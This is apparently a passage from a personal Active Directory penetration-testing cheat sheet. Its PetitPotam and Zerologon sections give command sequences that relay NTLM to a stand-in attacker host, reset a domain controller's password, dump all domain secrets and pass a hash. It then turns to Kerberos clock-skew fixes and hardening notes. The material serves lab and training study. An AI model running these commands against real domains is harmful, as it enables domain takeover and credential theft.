#### DCShadow

...
</div><div>

#### PetitPotam

[](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

PetitPotam is based on [CVE-2021-36942](https://nvd.nist.gov/vuln/detail/CVE-2021-36942). An authenticated attacker could connect using NTLM over port 445 by abusing MS-EFSRPC.

If the server runs AD CS, then the hacker can exploit it to eventually get a TGT for the Domain Controller and compromise the domain.

Refer to [this article](https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/).

```ps
$ impacket-ntlmrelayx -debug -smb2support --target http://target/certsrv/certfnsh.asp --adcs --template DomainController
$ git clone https://github.com/topotam/PetitPotam.git
$ cd PetitPotam
$ python3 PetitPotam.py HACKER_IP DCIP
```
```shell!
mimikatz# misc::efs /server:DCIP /connect:HACKER_IP
```

➡️ See also: [Invoke-Petitpotam.ps1](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/PowershellScripts/Invoke-Petitpotam.ps1).

➡️ See also: [PKINITtools](https://github.com/dirkjanm/PKINITtools) <small>(0.7k ⭐)</small> to get a TGT from a certificate:

```ps
$ python3 gettgtpkinit.py example.com\COMPUTE_ACCOUNT_NAME\$ -pfx-base64 ...SNIP... xxx.ccache
$ # use ccache file or request a TGS with the user hash
$ python3 getnthash.py -key <from gettgt> example.com\COMPUTE_ACCOUNT_NAME\$
```

<br>

#### Zerologon

[](https://www.root-me.org/fr/Challenges/Realiste/Windows-ZeroLogon)

ZeroLogon is a harmful unauthenticated vulnerability that can be used to authenticate as any user as long as we can reach the DC.

NetLogon uses AES with a null IV. When the nonce sent by the user is a block of zeros, then the session key may result all-zero ciphertext <small>(1/256, one session key is starting with 0)</small> allowing us to bypass authentication. We can then reset the DC password <small>(may lead to service disruptions)</small> and perform a DC sync to dump all secrets.

* [PoC by SecuraBV](https://github.com/SecuraBV/CVE-2020-1472) <small>(1.8k ⭐)</small>
* [PoC by dirkjanm](https://github.com/dirkjanm/CVE-2020-1472) <small>(1.2k ⭐)</small>
* [PoC by risksense](https://github.com/risksense/zerologon) <small>(0.7k ⭐)</small>

```shell!
$ git clone https://github.com/SecuraBV/CVE-2020-1472.git SecuraBV
$ python SecuraBV/zerologon_tester.py DC01 IP
$ git clone https://github.com/dirkjanm/CVE-2020-1472.git dirkjanm
$ python dirkjanm/cve-2020-1472-exploit.py DC01 IP
$ impacket-secretsdump -no-pass -just-dc EXAMPLE.COM/'DC01$'@IP
$ impacket-smbclient -no-pass EXAMPLE.COM/'DC01$'@IP  -hashes aad3b435b51404eeaad3b435b51404ee:777b1935ff37faba2b2c299288b0693b
```
</div></div>

<hr class="sep-both">

## Additional Notes

<div class="row row-cols-lg-2"><div>

#### KRB_AP_ERR_SKEW(Clock skew too great)

The error `Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)` indicates that there is a difference of more than five minutes <small>(default)</small> between your host and the target domain controller clock.

To get the remote server time:

```shell!
$ sudo apt install -y rdate
$ rdate -p -n DCIP # get the remote host date (Port 37/UDP)
```

```shell!
$ nmap --script smb2-time DCIP -Pn -p 445 # Port 445/TCP
```

To set the date:

```shell!
$ sudo apt install -y faketime
$ faketime '2024-04-24 01:22:35' bash # zsh on Kali
bash> # date is now set
```

You might use these, while they may not work much:

```shell!
$ sudo ntpdate -qu DCIP # Port 123/UDP?
$ sudo date MMDDHHMMSSYYYY
$ sudo rdate -n DCIP
$ net time -S DCIP
```
</div><div>
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* prevent access to dangerous websites
* [adPEAS](https://github.com/61106960/adPEAS) <small>(1.1k ⭐)</small>
* [UltimateAppLockerByPassList](https://github.com/api0cradle/UltimateAppLockerByPassList) <small>(2.0k ⭐)</small>
* [Active Directory Exploitation Cheat Sheet](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet) <small>(5.9k ⭐)</small>
* [AD mindmap orange](https://orange-cyberdefense.github.io/ocd-mindmaps/)
* [bloodyAD](https://github.com/CravateRouge/bloodyAD)+[autobloody](https://github.com/CravateRouge/autobloody)
* [Exchange AD Privesc](https://github.com/gdedrouas/Exchange-AD-Privesc). Real all mailboxes as admin. Dump all credentials in memory to get hundreds of them. [PrivExchange](https://github.com/dirkjanm/PrivExchange) vulnerability.
* [Certipy](https://github.com/ly4k/Certipy) (AD CS)
* Advanced Security Audit Policy
</div><div>

* [adsecurity](https://adsecurity.org/)
* Hardening AD ([ref](https://blog.netwrix.fr/2019/05/06/securiser-votre-annuaire-ad-contre-les-attaques-de-malware/))
* [kerberos/AD cyber](https://zer1t0.gitlab.io/posts/)
* Kerberos Delegation

<details class="details-n">
<summary>Configure BitLocker</summary>

* Also in Windows Security
* Network Unlock

**1)** The first part is installing BitLocker on the server:

* Start the Server Manager
* Click on "Add roles and features"
* Press Next thrice
* In Features, select BitLocker

**2)** Then we need to configure it:

* Go to Tools > Group Policy Management
* Right-click on a GPO > Edit <small>(you could create a GPO and apply it on the whole domain, or a GPO only for some OUs...)</small>
* Navigate to "Computer Configuration" > "Policies" > "Administrative Templates" > "Windows Components" > "BitLocker Drive Encryption"
* ~~Enable the "Turn on BitLocker"~~
* Go Navigate to "Operating system drives"
* Enable the "Require additional authentication at startup"
    * Select "Allow BitLocker without a compatible TPM"
    * Select "Do not allow startup PIN with TPM"
* Enable "Choose how BitLocker-protected operating system drives can be recovered"
    * Select the "Save BitLocker recovery information to AD DS for operating system drives"
* Navigate back to parent
* ~~Configure "Choose drive encryption method and cipher strength" <small>(encryption method, cipher strength...)</small>~~

**3)** On the Windows 10, you need to use a local administrator account, refer to the "Get started" section if needed.

* Open a powershell/CMD as an administrator
* Enter "gpedit.msc"
* Navigate to "Computer Configuration" > "Administrative Templates" > "Windows Components" > "BitLocker Drive Encryption"
* ...
* Restart

Then, right-click on the drive to encrypt, select "Bitlocker", and encrypt it. If prompted for a password when starting the workstation, then something went wrong in your configuration.
</details>

<details class="details-n">
<summary>Notes to configure TCP/IP parameters</summary>

You can either use the Windows Registry, or a group policy. Here are some parameters that you may want to set.

* SynAttackProtect <small>(SYN flood attacks)</small>
* EnableDeadGWDetect <small>(Detect dead gateways)</small>
* EnablePMTUdiscovery <small>(Avoid fragmentation...)</small>
* KeepAliveTime <small>(Timeout for inactive connections)</small>
* TCPMaxPortsExhausted <small>(Prevent from exhausting ports)</small>
* PerformRouterDiscovery <small>(Can simply the configuration but allow attackers to set up rogue routers/... to redirect traffic)</small>
* NoNameReleaseOnDemand <small>(Release the NetBios name when no longer needed to prevent attacker from obtaining information)</small>
* TcpMaxConnectResponseRetransmissions <small>(can help to prevent SYN flood attacks, but may exhaust system resources)</small>
</details>
</div></div>